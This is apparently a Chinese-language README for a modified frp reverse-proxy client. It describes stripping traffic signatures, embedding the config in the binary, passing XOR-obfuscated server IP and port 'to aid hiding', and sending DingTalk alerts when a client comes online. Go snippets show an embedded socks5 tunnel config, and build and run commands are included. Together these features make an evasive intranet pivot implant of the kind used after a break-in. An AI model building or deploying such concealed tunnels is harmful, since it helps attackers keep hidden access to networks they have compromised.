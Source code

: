 # frp-Modify

## Todo
- [x] 去除非 TLS 流量特征
- [x] 配置文件写入源码
- [x] 通过参数传入IP和端口
- [x] 传入参数加密，便于隐藏
- [x] 钉钉上线提醒

## 使用说明
- 在`cmd/frpc/sub/root.go#getFileContent()`函数中，按需修改 FRPC 配置和`key`（默认`testkey`）

```Go
func getFileContent(ip string, port string) {
	key := "testkey"
	ip = str2xor(ip, key)
	port = str2xor(port, key)

	var configContent string = `[common]
    server_addr = ` + ip + `
    server_port = ` + port + `
	tls_enable = true 
	[plugin_socks]
	type = tcp
	remote_port = 7788
	plugin = socks5
	#plugin_user = ""
	#plugin_passwd = ""
	`
	fileContent = configContent
}

```

- 确保安装 Go-1.16+ 和 GCC 环境，然后运行`package.sh`进行交叉编译

```bash
$ go env -w GOPROXY=https://goproxy.cn,direct  # 设置代理
$ ./package.sh

```

- FRPS正常运行，FRPC则需要传入异或后的字符串。可通过`xor.py`脚本进行异或，异或后的字符串存在特殊字符`\`，因此建议使用双引号包裹

```bash
$ ./frpc -t <IP> -p <端口>
$ ./frpc -t "E\AZZSAZTBEET" -p "CUCD"  # 192.168.111.1:7000

```

![](./frp-1.jpg)

## 钉钉提醒
- 需要在`client/control.go#HandleNewProxyResp()`函数中配置钉钉机器人`AccessToken`和`Secret`，然后在前面的配置部分添加相关`plugin_user`和`plugin_passwd`即可

```GO
func (ctl *Control) HandleNewProxyResp(inMsg *msg.NewProxyResp) {
    // ...

	if err != nil {
		xl.Warn("[%s] start error: %v", inMsg.ProxyName, err)
	} else {
		// 配置钉钉机器人
		dingAccessToken := ""
		dingSecret := ""
        
        // ...
	}

    // ...
}

```

![](./frp-2.jpg)

## 参考文章
- [FRP改造计划](https://uknowsec.cn/posts/notes/FRP%E6%94%B9%E9%80%A0%E8%AE%A1%E5%88%92.html)
- [https://github.com/wanghuiyt/ding](https://github.com/wanghuiyt/ding)
